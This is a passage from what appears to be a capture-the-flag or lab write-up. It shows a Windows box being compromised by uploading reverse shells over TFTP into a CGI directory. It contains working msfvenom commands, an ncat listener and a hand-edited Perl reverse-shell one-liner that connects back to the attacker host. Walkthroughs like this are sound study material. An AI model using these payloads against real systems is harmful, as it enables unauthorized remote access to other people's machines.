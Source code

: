 ```shell_session
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.2.0.3 LPORT=4444 -f exe -o shell.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

I then transferred it, ensuring to set the transfer mode to `binary`:

```shell_session
tftp> binary
tftp> mode
Using octet mode to transfer files.
tftp> put shell.exe cgi-bin/shell.exe
Sent 73802 bytes in 0.1 seconds
```

I then started a handler to catch the shell with:

```shell_session
root@kali:~# ncat -v -l -p 4444
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

And then attempted to invoke the executable by using curl to access `/cgi-bin/shell.exe`; but unfortunately it returned an error.

As native executables were out of the question, I tried another reverse TCP payload, but this time using Perl:

```shell_session
root@kali:~# msfvenom -p cmd/windows/reverse_perl LHOST=10.2.0.3 LPORT=4444 -o shell.pl
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 141 bytes
Saved as: shell.pl
```

There were a few changes I needed to make to `shell.pl` first, as the payload tries to invoke Perl with an inline script; where as I just wanted the script, so I removed `perl -MIO -e`, the quotes surrounding the script and the back slashes escaping the IP address / port.

In addition to this, I also had to load the `IO::Socket::INET` module. The payload after my modifications was:

```perl
use IO::Socket::INET;$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.2.0.3:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;
```

Now, using the same transport method as before, I was able to upload the Perl script to `cgi-bin/shell.pl` and when invoking it by accessing `/cgi-bin/shell.pl` using curl, the handler caught the connection and allowed me to start firing commands:
